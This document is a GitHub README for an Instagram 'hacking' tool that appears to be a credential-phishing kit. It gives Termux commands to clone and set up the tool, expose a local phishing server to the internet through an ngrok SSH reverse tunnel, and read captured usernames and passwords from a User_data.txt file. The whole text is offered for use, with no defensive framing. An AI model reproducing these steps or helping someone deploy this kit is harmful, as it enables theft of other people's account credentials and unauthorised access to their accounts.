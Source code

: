 <h1 align="center"><u>MasterHacker</u></h1>

![Hack page and get images](https://raw.githubusercontent.com/Mouse99-tech/Photo/refs/heads/main/IMG_20250205_093528.jpg)
<h3 align="center"> Hack anyone's Instagram and get images!</h3>




### [TERMUX] Install All Comments


```
pkg update && pkg upgrade -y
```
```
pkg install git
```
```
git clone https://github.com/Masterdas/Instagram.git
```
```
cd Instagram
```
```
bash setup.sh
```
```
instagram
```
### Exit Termux New SESSION 
```
ssh -R 443:localhost:8080 v2@connect.ngrok-agent.com http
```
```
cd
```
```
nano /storage/emulated/0/Download/User_data.txt
```
- `CTRL +  x enter`
- 🗃️ Open Manager, Download Folder, User_data.txt

### [Termux] Help Commend

1 - Termux install package

2 - Packege setup bash setup.sh

3  - Termux New tap Open
 
4 - type instagram and Start Port forwarding

5 - User Number/password = open file🗃️ Download

6 - `cd /storage/emulated/0/Download/`

7 - `instagram`



## [~] Find Me on :

- [![Github](https://img.shields.io/badge/Github-KasRoudra-green?style=for-the-badge&logo=github)](https://github.com/Masterdas?tab=repositories)

- [![Telegram](https://img.shields.io/badge/Gmail-KasRoudra-green?style=for-the-badge&logo=telegram)](https://t.me/masterdas000)

- [![Facebook](https://img.shields.io/badge/Facebook-KasRoudra-green?style=for-the-badge&logo=facebook)](https://facebook.com/x)


